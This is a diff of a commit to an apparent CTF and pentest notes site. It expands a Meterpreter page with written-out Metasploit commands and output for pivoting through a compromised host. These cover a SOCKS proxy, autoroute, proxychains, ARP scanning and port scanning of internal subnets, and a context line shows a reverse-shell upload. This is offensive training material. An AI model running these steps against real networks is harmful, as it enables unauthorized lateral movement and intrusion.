

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/c2/01-meterpreter.md, in a window 1280 px wide and 1400 px high, scrolled down 2369 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 3025 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add autoroute

````diff
--- a/docs/pentest/c2/01-meterpreter.md
+++ b/docs/pentest/c2/01-meterpreter.md
@@ -110,12 +110,75 @@ meterpreter > upload shell.exe 'c:\Users\bruce\Desktop\reverse.exe'
 [*] uploaded   : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
 ```
 
-## Pivoting / Autoroute
+## Autoroute & SOCKS proxy
 
-- https://www.tutorialspoint.com/metasploit/metasploit_pivoting.htm
-- https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html#autoroute
+Start SOCKS proxy server (default : `127.0.0.1:8080` with `SOCKS5`).
 
-## Socks proxy
+```
+msf6 > use auxiliary/server/socks_proxy
+msf6 auxiliary(server/socks_proxy) > run
+[*] Auxiliary module running as background job 0.
 
-- https://blog.pentesteracademy.com/socks4-proxy-pivoting-by-metasploit-74436b45392a
-- https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html#socks-module
+[*] Starting the SOCKS proxy server
+```
+
+Then, use autoroute.
+
+```
+msf6 auxiliary(server/socks_proxy) > sessions -i 1
+[*] Starting interaction with 1...
+
+meterpreter > run autoroute -s 172.16.1.0/24
+
+[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
+[!] Example: run post/multi/manage/autoroute OPTION=value [...]
+[*] Adding a route to 172.16.1.0/255.255.255.0...
+[+] Added route to 172.16.1.0/255.255.255.0 via 10.10.110.100
+[*] Use the -p option to list all active routes
+```
+
+Finally, use proxy options :
+
+```
+curl --proxy socks5://127.0.0.1:1080 http://172.16.1.100:4444/
+```
+
+or `proxychains` :
+
+Add the line `socks5 127.0.0.1 1080` to the end of `/etc/proxychains.conf`.
+
+```
+proxychains curl http://172.16.1.100:4444/
+```
+
+## ARP Scanner
+
+```
+meterpreter > bg
+[*] Backgrounding session 1...
+msf6 exploit(windows/smb/ms17_010_psexec) >  use post/windows/gather/arp_scanner
+msf6 post(windows/gather/arp_scanner) > set SESSION 1
+SESSION => 1
+msf6 post(windows/gather/arp_scanner) > set RHOSTS 172.16.2.0/24
+RHOSTS => 172.16.2.0/24
+msf6 post(windows/gather/arp_scanner) > run
+
+[...]
+```
+
+## Port Scanner
+
+```
+msf6 > route add 172.16.2.0 255.255.255.0 1
+[*] Route added
+
+msf6 > use auxiliary/scanner/portscan/tcp
+msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.2.0-255
+RHOSTS => 172.16.2.0-255
+msf6 auxiliary(scanner/portscan/tcp) > set PORTS 22,80,88,445
+PORTS => 22,80,88,445
+msf6 auxiliary(scanner/portscan/tcp) > run
+
+[+] 172.16.2.5:           - 172.16.2.5:88 - TCP OPEN
+[+] 172.16.2.5:           - 172.16.2.5:445 - TCP OPEN
+```
````
